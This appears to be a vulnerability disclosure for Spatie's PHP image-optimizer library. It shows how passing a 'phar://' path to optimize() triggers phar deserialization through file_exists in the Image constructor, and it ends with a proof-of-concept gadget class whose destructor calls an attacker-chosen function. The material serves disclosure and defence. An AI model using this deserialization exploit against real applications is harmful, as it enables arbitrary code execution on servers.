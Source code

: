 ```php
public function optimize(string $pathToImage, string $pathToOutput = null)
{
    if ($pathToOutput) {
        copy($pathToImage, $pathToOutput);

        $pathToImage = $pathToOutput;
    }

    $image = new Image($pathToImage);

    $this->logger->info("Start optimizing {$pathToImage}");

    foreach ($this->optimizers as $optimizer) {
        $this->applyOptimizer($optimizer, $image);
    }
}
```

It will create an object Image based on $pathToImage which we are able to manipulate. And this is Image class

```php
class Image
{
    protected $pathToImage = '';

    public function __construct(string $pathToImage)
    {
        if (! file_exists($pathToImage)) {
            throw new InvalidArgumentException("`{$pathToImage}` does not exist");
        }

        $this->pathToImage = $pathToImage;
    }

...
```

We can see file_exists when we create an Image object and it also triggers phar deserialization.

### POC

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

require __DIR__ . '/vendor/autoload.php';

use Spatie\ImageOptimizer\OptimizerChainFactory;

$optimizerChain = OptimizerChainFactory::create();

$optimizerChain->optimize("phar://test.phar");
?>
```